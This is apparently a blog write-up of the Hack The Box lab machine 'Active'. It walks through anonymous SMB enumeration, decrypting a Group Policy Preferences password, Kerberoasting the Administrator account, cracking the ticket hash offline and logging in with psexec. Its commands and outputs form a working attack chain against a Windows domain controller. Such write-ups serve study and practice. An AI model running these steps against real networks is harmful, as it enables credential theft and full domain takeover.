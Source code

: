```yaml
---
layout: post
title: HTB Machine - Active
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/5837ac5e28291146a9f2a8a015540c28.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/5837ac5e28291146a9f2a8a015540c28.png
share-img: https://www.hackthebox.com/storage/avatars/5837ac5e28291146a9f2a8a015540c28.png
tags: [ HTB, Active Directory, Hack the Box,Kerberos
Network,Vulnerability Assessment,Active Directory,Outdated Software,Security Tools,Authentication,SMB,Impacket,Reconnaissance,Password Cracking,Kerberoasting,Default Credentials,Weak Permissions,Anonymous/Guest Access]
---
```


#### Scanning the target we identify that is a Domain controller. Then we proceed to enumerate the shares with smbclient, we do this with a null session since we dont have credentials (flag -N)
```bash
smbclient -L 10.10.10.100 -N
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
```

### we dont know to which folders we have permissions to. We can see permissions using smbmap with -H flag. Note: we placed the IP inside the etc/hosts file with the name active.htb.

```bash
smbmap -H active.htb                                  
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	Replication                                       	READ ONLY	
	SYSVOL                                            	NO ACCESS	Logon server share 
	Users                                             	NO ACCESS	
```
### We keep diggin into the directory this time using the flag -r (folderpath). We get to a point where we see folders that usually are part of the Sysvol directory (which we dont have access too), but this could be perhaps a copy?

```bash
smbmap  -H active.htb -r Replication/active.htb                                         
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Replication                                       	READ ONLY	
	.\Replicationactive.htb\*
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	.
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	..
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	DfsrPrivate
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	Policies
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	scripts
```
### We continue enumerating the folders. In one of them there is a Groups.xml file that is very interesting. We donwload it to our attack machine. 

```bash
smbmap  -H active.htb --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
```
### there is a password that is not in clear text. But Microsoft at some point gave away the AES key to encrypt such passwords. There is a ruby utility called gpp-decrypt that uses that key to decrypt the password. We could try it in our hash. 

```bash
gpp-decrypt 'hash_value'
```
### then we got our clear text pass: GPPstillStandingStrong2k18 for the user we find in the XML file too SVC_TGS. We can corroborate this with crackmapexec, if it places a + the user and pass are valid. Then we could list the --shares this user could access. 

```bash
❯ crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p GPPstillStandingStrong2k18 --shares
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18 
SMB         10.10.10.100    445    DC               [+] Enumerated shares
SMB         10.10.10.100    445    DC               Share           Permissions     Remark
SMB         10.10.10.100    445    DC               -----           -----------     ------
SMB         10.10.10.100    445    DC               ADMIN$                          Remote Admin
SMB         10.10.10.100    445    DC               C$                              Default share
SMB         10.10.10.100    445    DC               IPC$                            Remote IPC
SMB         10.10.10.100    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.10.100    445    DC               Replication     READ            
SMB         10.10.10.100    445    DC               SYSVOL          READ            Logon server share 
SMB         10.10.10.100    445    DC               Users           READ            
```

### again we use smbmap to enumerate the Users folders and go for the user flag in the usual spot. 

```bash
smbmap -H active.htb -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Users/SVC_TGS/Desktop
smbmap -H active.htb -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --download Users/SVC_TGS/Desktop/user.txt
```
### we can try to list all users in the directory but we need valid credentials for that, so we use the ones we found to list the users, groups and descriptions.

```bash
rpcclient -U "" 10.10.10.100 -N -c 'enumdomusers'
Error was NT_STATUS_ACCESS_DENIED

rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'enumdomusers'
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[SVC_TGS] rid:[0x44f]

rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'enumdomgroups'
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[DnsUpdateProxy] rid:[0x44e]

rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'querygroupmem 0x200'
	rid:[0x1f4] attr:[0x7]
	
rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'queryuser 0x1f4'
	User Name   :	Administrator
	Full Name   :
	.
	.(redacted)

rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'querydispinfo'
index: 0xdea RID: 0x1f4 acb: 0x00000210 Account: Administrator	Name: (null)	Desc: Built-in account for administering the computer/domain
index: 0xdeb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xe19 RID: 0x1f6 acb: 0x00020011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
index: 0xeb2 RID: 0x44f acb: 0x00000210 Account: SVC_TGS	Name: SVC_TGS	Desc: (null)
```
### we can use the rpcenum tool from S4vitar. We need to change the parameters (find replace) the -U to place the credentials and delete the -N. We give execution permissions to the script and run it with the flags we want to check. Basically if we dont want to remember all the commands above it will do the same thing.

```bash
sudo ./rpcenum -e DGroups -i active.htb
```
### ASREPRoast attack: if we didnt have a password we could try to get hashes by requesting a TGT. Basically it is an attack against Kerberos that allows password hashes to be retrieved for users and do not require pre-authentication. If the user has “Do not use Kerberos pre-authentication” enabled, then an attacker can recover a Kerberos AS-REP encrypted with the users RC4-HMAC’d password and he can attempt to crack this ticket offline. So we list our users and place them inside a txt file to use the GetNPUsers tool.

```bash
GetNPUsers.py -no-pass -usersfile users.txt active.htb/
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User SVC_TGS doesn't have UF_DONT_REQUIRE_PREAUTH set
```
### no luck with this. If we need to brute force users in the DC we could use kerbrute. WE have to synchronize the clock with the DC, we do this with "ntpdate 10.10.10.100" that way our machine takes the time from the DC. Being out of sync can cause some issues. i

```bash
./kerbrute_linux_amd64 userenum --dc 10.10.10.100 -d active.htb /usr/share/seclists/Usernames/Names/names.txt
```
### Then we query target domain for SPNs that are running under a user account. We will neet to check if we can get a TGS for the user. if the user has CIFS.

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2023-04-27 15:24:30.307759 
```
### the user is admin so we could send a request and get a hash that we will try to crack offline

   
```bash
❯ GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2023-04-27 15:24:30.307759             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$5fe8f4270ad1567f0459ff6126e6a02f$9c05cff6a9b4533e77ded9d5632ef98a1940675102e43d8839f0add2c5d2f068b872f2bec193be6d569c240dfe01c82ec9690ba698e7f3796c316ad2248c592c384e809080..(REDACTED)
```
### we place in a file hash and crack with john

```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)     
1g 0:00:00:05 DONE (2023-04-28 07:48) 0.1677g/s 1768Kp/s 1768Kc/s 1768KC/s Tiffani1432..Thrash1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
### Validate credentials: 

```bash
crackmapexec smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968'
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\Administrator:Ticketmaster1968 (Pwn3d!)
```
### then we can login
```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe   
```
### and search for the flag

```bash
type C:\Users\Administrator\Desktop\root.txt
```
